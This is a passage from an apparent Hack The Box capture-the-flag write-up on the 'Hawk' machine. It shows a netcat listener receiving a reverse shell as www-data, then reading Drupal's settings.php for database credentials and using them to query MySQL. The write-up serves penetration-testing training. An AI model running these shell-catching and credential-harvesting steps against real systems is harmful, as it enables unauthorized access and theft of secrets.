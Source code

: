 Then, let's wait on listener.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ nc -nlvp 9000               
listening on [any] 9000 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.102] 52174
bash: cannot set terminal process group (835): Inappropriate ioctl for device
bash: no job control in this shell
www-data@hawk:/var/www/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

It worked! I got a shell as `www-data`.




# Shell as `daniel`

### Enumeration

First, let's investigate webroot. I can find DB credential from `settings.php` file.

```bash
www-data@hawk:/var/www/html$ cat sites/default/settings.php

<SNIP>
$databases = array (
  'default' => 
  array (
    'default' => 
    array (
      'database' => 'drupal',
      'username' => 'drupal',
      'password' => 'drupal4hawk',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);
<SNIP>
```

The credential is `drupal` : `drupal4hawk`

Since the interactive shell is not working well with `mysql` command, I ran it one by one by using `-e` option.

```bash
www-data@hawk:/var/www/html$ mysql -u drupal -pdrupal4hawk -e "show databases;"
< mysql -u drupal -pdrupal4hawk -e "show databases;"
mysql: [Warning] Using a password on the command line interface can be insecure.
Database
information_schema
drupal
mysql
performance_schema
sys


www-data@hawk:/var/www/html$ mysql -u drupal -pdrupal4hawk -e "use drupal;show tables;"
<u drupal -pdrupal4hawk -e "use drupal;show tables;"
mysql: [Warning] Using a password on the command line interface can be insecure.
Tables_in_drupal
```